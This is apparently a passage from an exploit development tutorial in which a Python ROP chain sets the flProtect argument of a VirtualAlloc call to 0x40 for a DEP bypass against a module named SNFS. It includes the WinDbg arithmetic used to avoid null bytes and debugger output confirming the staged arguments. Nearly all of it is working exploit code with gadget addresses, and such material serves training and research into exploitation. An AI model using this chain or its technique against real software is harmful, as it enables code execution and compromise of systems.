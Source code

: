 flProtect

Should be `0x40` and we will utilise the same technique as before as it includes a null bye.

```python
0:077> ?40 - 80808080
Evaluate expression: -2155905088 = ffffffff`7f7f7fc0
0:077> ? 80808080 + 7f7f7fc0
Evaluate expression: 4294967360 = 00000001`00000040

#flProtect
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;

rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ; 

rop += pack("<L", (0x10014429)) # pop eax ; ret  ;
rop += pack("<L", (0x80808080)) # first value to be added

rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
rop += pack("<L", (0x7f7f7fc0)) # second value to be added

rop += pack("<L", (0x10012ef4)) # add eax, ecx ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi

rop += pack("<L", (0x502162b5)) # push eax ; and al, 0x59 ; pop ecx ; ret  ; 

#EAX will need valid memory address for the next gadget so we just add the virtualloc address
rop += pack("<L", (0x5021376f)) # pop eax ; ret  ;
rop += pack("<L", (0x100252E0)) # VirtualAlloc Address

#restore eax from ebp
rop += pack("<L", (0x10019c61)) # push ebp ; add edx, dword [eax] ; pop eax ; ret

rop += pack("<L", (0x1001526c)) # mov dword [eax], ecx ; ret  ;
```

We check that everything is working as shown below.

```python
0:001> dds eax - 14 L6
00e9e2f0  100252e0 SNFS!_imp__VirtualAlloc
00e9e2f4  00e9e434
00e9e2f8  00e9e434
00e9e2fc  00000001
00e9e300  00001000
00e9e304  00000040
```

## Executing VirtualAlloc <a name="exvalloc"></a>
